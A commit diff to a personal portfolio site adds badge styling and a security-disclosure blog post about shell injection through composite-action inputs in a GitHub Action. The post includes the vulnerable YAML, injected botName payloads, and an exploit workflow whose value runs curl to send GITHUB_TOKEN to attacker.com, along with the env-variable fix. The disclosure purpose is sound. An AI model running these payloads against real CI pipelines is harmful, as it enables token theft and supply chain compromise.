

Before and after one commit to madhanalagarsamy/portfolio, a Next.js app: page /blog in a window 1280 px wide. Shown: the top 800 px of the page. Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Add Critical advisory GHSA-8rfq-rmx4-8qhr and detailed blog writeup

```diff
--- a/app/blog/[slug]/page.tsx
+++ b/app/blog/[slug]/page.tsx
@@ -95,7 +95,15 @@ export default async function BlogPostPage({ params }: PageProps) {
                 </span>
               )}
               {post.severity && (
-                <span className="inline-flex items-center space-x-1 px-3 py-1 rounded bg-amber-500/10 border border-amber-500/30 text-amber-300 font-mono text-xs font-medium uppercase">
+                <span
+                  className={`inline-flex items-center space-x-1 px-3 py-1 rounded font-mono text-xs font-medium uppercase ${
+                    post.severity.toLowerCase() === "critical"
+                      ? "bg-rose-500/15 border border-rose-500/40 text-rose-300 font-bold shadow-[0_0_12px_rgba(244,63,94,0.25)]"
+                      : post.severity.toLowerCase() === "high"
+                      ? "bg-orange-500/15 border border-orange-500/40 text-orange-300 font-semibold"
+                      : "bg-amber-500/10 border border-amber-500/30 text-amber-300 font-medium"
+                  }`}
+                >
                   <ShieldAlert size={13} />
                   <span>SEVERITY: {post.severity}</span>
                 </span>
--- a/components/BlogList.tsx
+++ b/components/BlogList.tsx
@@ -131,7 +131,15 @@ export default function BlogList({ posts }: BlogListProps) {
                       </span>
                     )}
                     {post.severity && (
-                      <span className="px-2 py-0.5 rounded bg-amber-500/10 border border-amber-500/30 text-amber-300 uppercase">
+                      <span
+                        className={`px-2 py-0.5 rounded font-mono text-[11px] uppercase ${
+                          post.severity.toLowerCase() === "critical"
+                            ? "bg-rose-500/15 border border-rose-500/40 text-rose-300 font-bold shadow-[0_0_10px_rgba(244,63,94,0.25)]"
+                            : post.severity.toLowerCase() === "high"
+                            ? "bg-orange-500/15 border border-orange-500/40 text-orange-300 font-semibold"
+                            : "bg-amber-500/10 border border-amber-500/30 text-amber-300 font-medium"
+                        }`}
+                      >
                         {post.severity}
                       </span>
                     )}
--- a/components/SecurityAdvisory.tsx
+++ b/components/SecurityAdvisory.tsx
@@ -76,7 +76,15 @@ export default function SecurityAdvisory() {
                       {advisory.id}
                     </h3>
                     {advisory.severity && (
-                      <span className="px-2.5 py-1 rounded bg-amber-500/10 border border-amber-500/30 text-amber-300 font-mono text-xs uppercase font-medium">
+                      <span
+                        className={`px-2.5 py-1 rounded font-mono text-xs uppercase ${
+                          advisory.severity.toLowerCase() === "critical"
+                            ? "bg-rose-500/15 border border-rose-500/40 text-rose-300 font-bold shadow-[0_0_12px_rgba(244,63,94,0.25)]"
+                            : advisory.severity.toLowerCase() === "high"
+                            ? "bg-orange-500/15 border border-orange-500/40 text-orange-300 font-semibold"
+                            : "bg-amber-500/10 border border-amber-500/30 text-amber-300 font-medium"
+                        }`}
+                      >
                         {advisory.severity}
                       </span>
                     )}
--- a/data/advisory.ts
+++ b/data/advisory.ts
@@ -14,6 +14,18 @@ export interface AdvisoryItem {
 
 export const advisoryData = {
   advisories: [
+    {
+      id: "GHSA-8rfq-rmx4-8qhr",
+      title: "Shell Injection via Composite Action Inputs in gouef/githubtoplanguages",
+      targetRepo: "gouef / githubtoplanguages",
+      platform: "GitHub Security Advisory",
+      url: "https://github.com/gouef/githubtoplanguages/security/advisories/GHSA-8rfq-rmx4-8qhr",
+      badge: "VERIFIED GITHUB SECURITY ADVISORY",
+      severity: "Critical",
+      cwe: ["CWE-77", "CWE-78", "CWE-94"],
+      publishedDate: "Sep 2026",
+      description: "Discovered and responsibly disclosed a Critical shell command injection vulnerability in GitHub Actions composite action inputs (botName & botEmail), allowing arbitrary command execution on the CI runner, repository token exfiltration, and supply chain compromise."
+    },
     {
       id: "GHSA-9v52-vhvw-4w5c",
       title: "Cross-meeting presentation upload via unbound upload token (IDOR)",
--- a/data/posts.ts
+++ b/data/posts.ts
@@ -51,6 +51,93 @@ export interface BlogPost {
 }
 
 export const blogPosts: BlogPost[] = [
+  {
+    slug: "ghsa-8rfq-rmx4-8qhr",
+    title: "Shell Injection via Composite Action Inputs in gouef/githubtoplanguages",
+    summary:
+      "A deep dive into discovering and responsibly disclosing a Critical shell command injection flaw in gouef/githubtoplanguages where ${{ inputs.* }} interpolation directly into run: scripts enables arbitrary remote command execution (RCE) on CI runners and GITHUB_TOKEN theft.",
+    publishedDate: "Sep 2026",
+    readTime: "7 min read",
+    category: "Security Advisory",
+    tags: ["Command Injection", "RCE", "GitHub Actions", "CI/CD Security", "CWE-78", "Supply Chain", "Disclosure"],
+    advisoryId: "GHSA-8rfq-rmx4-8qhr",
+    targetRepo: "gouef / githubtoplanguages",
+    severity: "Critical",
+    cwe: [
+      "CWE-77: Command Injection",
+      "CWE-78: OS Command Injection",
+      "CWE-94: Code Injection"
+    ],
+    patchedVersions: ["Review in progress / Pending patch"],
+    githubAdvisoryUrl: "https://github.com/gouef/githubtoplanguages/security/advisories/GHSA-8rfq-rmx4-8qhr",
+    overview:
+      "During security research into GitHub Actions composite actions, a critical command injection flaw was uncovered in gouef/githubtoplanguages (action.yml:64-67). The action constructed shell commands by embedding raw input expressions (${{ inputs.botName }} and ${{ inputs.botEmail }}) directly into run: script blocks without environment boundaries. An adversary supplying shell metacharacters could escape quotes, execute arbitrary commands with the privileges of the runner user, exfiltrate the repo GITHUB_TOKEN with contents: write access, or spawn an interactive reverse shell.",
+    timeline: [
+      { date: "3 weeks ago", event: "Vulnerability identified in action.yml string interpolation; reported privately to maintainer via GitHub Security Advisory." },
+      { date: "3 weeks ago", event: "Maintainer (@JanGalek) accepted the report, acknowledged CVSS Critical severity, and initiated CVE assignment request." },
+      { date: "2 weeks ago", event: "Follow-up coordinated disclosure exchanges between reporter (@madhanalagarsamy) and maintainer." },
+      { date: "2 weeks ago", event: "Official GitHub Security Advisory GHSA-8rfq-rmx4-8qhr published on GitHub Advisory Database as Critical severity." }
+    ],
+    vulnerabilityDetails: [
+      {
+        heading: "Vulnerable Code Pattern (action.yml:64-67)",
+        description:
+          "The composite action configures Git author details prior to committing updated language statistics. The raw input values are pasted directly into the run block without an intermediate environment variable boundary:",
+        codeSnippet: {
+          language: "yaml",
+          caption: "Vulnerable step in action.yml:64-67",
+          code: `- name: Set up Git\n  run: |\n    git config --global user.name "\${{ inputs.botName }}"\n    git config --global user.email "\${{ inputs.botEmail }}"\n  shell: bash`
+        }
+      },
+      {
+        heading: "Root Cause: Expression Preprocessing vs. Shell Execution",
+        description:
+          "${{ ... }} is a GitHub Actions expression preprocessing step: the runner evaluates the expression and textually splices the raw input string directly into the shell script file before bash ever parses it. Because the input sits within plain double quotes on its own line with no trailing syntax requirements, an attacker can break out of the quotes using \"; <arbitrary command>; echo \", leading to seamless execution without syntax errors."
+      }
+    ],
+    poc: {
+      description:
+        "The proof of concept confirmed arbitrary shell command execution, proof-of-compromise marker file generation, and credential exfiltration on the runner.",
+      steps: [
+        "Craft a workflow utilizing gouef/githubtoplanguages with an injection payload in botName: Jan\"; touch /tmp/GITHUB_BOTNAME_PWNED.txt; whoami; echo \"",
+        "Trigger the workflow via workflow_dispatch or pull request.",
+        "Observe the rendered command: git config --global user.name \"Jan\"; touch /tmp/GITHUB_BOTNAME_PWNED.txt; whoami; echo \"\"",
+        "Execution confirmed: /tmp/GITHUB_BOTNAME_PWNED.txt was created and whoami output the CI runner user.",
+        "Token exfiltration demonstration: Crafting payload botName: 'Jan\"; curl -X POST https://attacker.com/exfil -d \"$GITHUB_TOKEN\"; echo \"' sends the repository write token directly to attacker infrastructure."
+      ],
+      requestSnippet: {
+        language: "yaml",
+        caption: "PoC Exploit Workflow (action execution)",
+        code: `on: workflow_dispatch\njobs:\n  generate:\n    runs-on: ubuntu-latest\n    permissions:\n      contents: write\n    steps:\n      - uses: actions/checkout@v4\n      - uses: gouef/githubtoplanguages@main\n        with:\n          user: "JanGalek"\n          limit: 12\n          botName: 'Jan"; curl -X POST https://attacker.com/exfil -d "$GITHUB_TOKEN"; echo "'\n          botEmail: "bot@example.com"\n        env:\n          GITHUB_TOKEN: \${{ secrets.GITHUB_TOKEN }}`
+      }
+    },
+    impact:
+      "Critical Severity (CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:H/I:H/A:H). The runner environment possesses GITHUB_TOKEN with contents: write permission, giving attackers immediate write access to the repository to push malicious commits, modify CI workflows, plant backdoors in release assets, or exfiltrate all secrets and private repository code. Downstream projects consuming this composite action inherit the vulnerability, creating an open-source supply chain attack vector.",
+    remediation:
+      "Never splice untrusted inputs directly into run: script bodies using ${{ ... }}. Instead, pass all inputs into the step's environment using an env: block, and reference them inside the bash script as quoted environment variables (\"$BOT_NAME\", \"$BOT_EMAIL\").",
+    patchDetails: {
+      description: "Secure mitigation using environment variables",
+      codeSnippet: {
+        language: "yaml",
+        caption: "Recommended remediation patch in action.yml",
+        code: `- name: Set up Git\n  env:\n    BOT_NAME: \${{ inputs.botName }}\n    BOT_EMAIL: \${{ inputs.botEmail }}\n  run: |\n    git config --global user.name "$BOT_NAME"\n    git config --global user.email "$BOT_EMAIL"\n  shell: bash`
+      }
+    },
+    references: [
+      {
+        title: "Official GitHub Security Advisory GHSA-8rfq-rmx4-8qhr",
+        url: "https://github.com/gouef/githubtoplanguages/security/advisories/GHSA-8rfq-rmx4-8qhr"
+      },
+      {
+        title: "GitHub Security Lab: Preventing Script Injection Attacks in Actions",
+        url: "https://securitylab.github.com/research/github-actions-preventing-pwn-requests/"
+      },
+      {
+        title: "CWE-78: Improper Neutralization of Special Elements used in an OS Command",
+        url: "https://cwe.mitre.org/data/definitions/78.html"
+      }
+    ]
+  },
   {
     slug: "ghsa-9v52-vhvw-4w5c",
     title: "Cross-meeting presentation upload via unbound upload token (IDOR)",
```
